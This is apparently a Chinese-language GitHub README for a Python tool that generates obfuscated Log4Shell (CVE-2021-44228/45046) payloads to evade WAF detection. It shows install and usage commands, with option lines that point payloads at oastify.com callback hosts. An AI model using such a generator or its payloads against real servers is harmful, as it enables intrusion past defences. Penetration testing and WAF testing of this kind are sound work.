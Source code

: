 # Log4Shell-obfuscated-payloads-generator
Log4Shell-obfuscated-payloads-generator可以生成初级混淆的或二级混淆的CVE-2021-44228或CVE-2021-45046 payloads，以规避WAF检测。

[Log4Shell-obfuscated-payloads-generator的设计思想](https://r3kind1e.github.io/2022/05/26/Log4Shell-obfuscated-payloads-generator/)

## 安装
```
git clone https://github.com/r3kind1e/Log4Shell-obfuscated-payloads-generator.git
```

Log4Shell-obfuscated-payloads-generator在任何平台上都可以在Python 3.x版本中开箱即用。

## Usage
要获取基本选项列表，请使用：

```
python3 Log4Shell-obfuscated-payloads-generator.py -h
```

要获取使用示例，请使用：

```
python3 Log4Shell-obfuscated-payloads-generator.py -hh
```

## Screenshots
`-h`: 获取基本选项列表
![help](img/help.png)

`-hh`: 获取使用示例
![usage-examples](img/usage-examples.png)

使用单个选项生成有效负载，`-s`选项指定恶意服务器：
```
--generate-primary-obfuscated-cve-2021-44228-payload 8 -s ck0pf4l6fmq4w0v17o7t894txk3arz.oastify.com
```
![primary44228](img/primary44228.png)
![burp-collaborator-client1](img/burp-collaborator-client1.png)

```
--generate-primary-obfuscated-cve-2021-45046-payload 4 -s x53a0p6r07bphlgms9setupei5owcl.oastify.com
```
![primary45046](img/primary45046.png)

```
--generate-secondary-obfuscated-cve-2021-44228-payload 5 -s oia1rpap41mhxkp6rdbbywit1k7avz.oastify.com
```
![secondary44228](img/secondary44228.png)
![burp-collaborator-client2](img/burp-collaborator-client2.png)

```
--generate-secondary-obfuscated-cve-2021-45046-payload 5 -s 3vzg44n4hgzwaz2l4soqbbv8ezkq8f.oastify.com
```
![secondary45046](img/secondary45046.png)

使用多个选项来生成有效负载，`-s` 选项指定了恶意服务器：
```
--generate-primary-obfuscated-cve-2021-44228-payload 4 --generate-secondary-obfuscated-cve-2021-44228-payload 4 -s exfr6fpfjr17ca4w63q1dmxjgam2ar.oastify.com
```
![primary44228secondary44228](img/primary44228secondary44228.png)

如果不使用`-s`选项指定恶意服务器，`{{callback_host}}`占位符将保留在生成的有效负载中：
```
--generate-primary-obfuscated-cve-2021-44228-payload 3
```
![primary44228-without-server](img/primary44228-without-server.png)
```
--generate-primary-obfuscated-cve-2021-45046-payload 3 --generate-secondary-obfuscated-cve-2021-45046-payload 7
```
![primary45046secondary45046](img/primary45046secondary45046.png)
